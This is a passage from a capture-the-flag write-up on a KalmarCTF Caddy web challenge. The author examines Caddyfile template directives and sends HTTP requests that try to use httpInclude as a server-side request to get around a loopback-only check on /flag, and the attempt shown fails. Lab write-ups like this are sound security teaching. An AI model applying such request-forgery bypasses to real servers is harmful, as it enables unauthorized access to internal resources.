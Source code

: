 we can see that unless we have the actual remote_ip equal to the loopback address of the server, we will get the response `No ...`. Let's just make sure that happens:

Request:

```
GET /flag HTTP/2
Host: private.caddy.chal-kalmarc.tf

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 6
Date: Sat, 15 Mar 2025 13:06:16 GMT

No ...
```

Alright. Let's see the templates and try to guess what they do:

```
templates
respond /cat     `\{\{ cat "HELLO" "WORLD" \}\}` << responds with HELLO WORLD
respond /fetch/* `\{\{ httpInclude "/{http.request.orig_uri.path.1}" \}\}` << probably creates another request via `httpInclude` directive to a path that is specified after /fetch/HERE_PATH
respond /headers `\{\{ .Req.Header | mustToPrettyJson \}\}` << responds with the headers sent with the request
respond /ip      `\{\{ .ClientIP \}\}` << responds with the client ip address
respond /whoami  `{http.auth.user.id}` << not useful as there's no auth here.
```

So that would mean that if we send a request to `/fetch/flag` we will bypass the next validation, as the request would be sent from the server by the `httpInclude` directive:

Request:

```
GET /fetch/flag HTTP/2
Host: private.caddy.chal-kalmarc.tf

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 25
Date: Sat, 15 Mar 2025 13:11:25 GMT

Would be too easy, right?
```
